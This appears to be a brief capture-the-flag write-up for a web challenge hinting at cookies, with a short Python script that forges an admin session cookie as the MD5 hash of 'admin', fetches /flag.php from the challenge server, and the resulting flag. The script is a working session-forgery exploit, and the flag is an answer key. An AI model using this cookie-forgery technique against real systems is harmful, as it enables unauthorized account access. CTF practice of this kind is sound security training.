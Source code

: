 
I love biscuits, chocolates and …….. ? 

http://kicyber2024-3213b6d228ae-webserver4-0.chals.io

import requests,hashlib
URL="http://kicyber2024-3213b6d228ae-webserver4-0.chals.io"
session = hashlib.md5("admin".encode()).hexdigest()
r = requests.get(URL+"/flag.php", cookies={"session":session})
print(r.text)

![[Pasted image 20240811010355.png]]


the flag is 

```
KPMG_CTF{XHrHgWjUOnIenqwFxDV9PGzo0tLt_y0YpTsprSf3EN1ZoDrQ_mmmNYCcu0LKGo13TAPXQm8oA4R_rxPq7fadxrkzjZQd6fUze9aKQZxQ}
```